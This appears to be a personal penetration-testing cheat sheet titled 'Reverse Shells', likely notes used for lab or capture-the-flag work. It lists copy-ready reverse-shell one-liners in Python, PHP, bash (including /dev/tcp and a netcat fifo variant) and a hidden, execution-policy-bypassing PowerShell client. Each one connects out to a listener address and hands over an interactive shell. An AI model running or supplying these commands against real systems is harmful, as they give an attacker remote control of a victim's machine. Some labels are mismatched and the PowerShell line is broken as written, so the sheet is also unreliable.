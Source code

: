 New Reverse Shells

## Reverse Shells
***

I would like to get more data from Pentest Mokey here. Seems like that site is not reliable. 

### PHP Reverse Shell
***

```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.46",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```


```php
php -r '$sock=fsockopen("10.10.14.46",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```

```bash
bash -i >& /dev/tcp/10.10.14.140/8080 0>&1
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 1234 >/tmp/f
```


```powershell
powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("10.10.10.10",1234);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```
